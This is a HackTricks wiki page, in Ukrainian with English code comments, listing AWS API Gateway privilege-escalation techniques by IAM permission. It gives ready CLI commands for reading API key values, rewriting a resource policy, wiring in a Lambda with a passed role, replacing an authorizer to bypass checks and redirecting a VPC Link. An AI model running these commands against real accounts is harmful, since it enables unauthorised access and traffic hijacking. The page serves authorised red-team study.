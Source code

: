# AWS - Apigateway Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Apigateway

Для отримання додаткової інформації перегляньте:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

З цим дозволом ви можете генерувати ключі API для налаштованих API (по регіону).
```bash
aws --region <region> apigateway create-api-key
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:GET`

З цією дозволом ви можете отримати згенеровані ключі API для налаштованих API (по регіону).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Потенційний вплив:** Ви не можете підвищити привілеї за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

З цими дозволами можливо змінити політику ресурсу API, щоб надати собі доступ до його виклику та зловживати потенційним доступом, який може мати API gateway (наприклад, виклик вразливої лямбди).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Потенційний вплив:** Зазвичай ви не зможете підвищити привілеї безпосередньо за допомогою цієї техніки, але ви можете отримати доступ до чутливої інформації.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з правами `apigateway:PutIntegration`, `apigateway:CreateDeployment` та `iam:PassRole` може **додати нову інтеграцію до існуючого API Gateway REST API з функцією Lambda, до якої прикріплено IAM роль**. Потім зловмисник може **викликати функцію Lambda для виконання довільного коду і потенційно отримати доступ до ресурсів, пов'язаних з IAM роллю**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Доступ до ресурсів, пов'язаних з IAM роллю функції Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з правами `apigateway:UpdateAuthorizer` та `apigateway:CreateDeployment` може **модифікувати існуючий авторизатор API Gateway**, щоб обійти перевірки безпеки або виконати довільний код під час виконання запитів до API.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Потенційний вплив**: Обхід перевірок безпеки, несанкціонований доступ до ресурсів API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Потрібно тестування
{% endhint %}

Зловмисник з дозволом `apigateway:UpdateVpcLink` може **змінити існуюче VPC Link, щоб вказати на інший мережевий балансувальник навантаження, потенційно перенаправляючи приватний трафік API на несанкціоновані або шкідливі ресурси**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potential Impact**: Несанкціонований доступ до приватних ресурсів API, перехоплення або порушення трафіку API.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
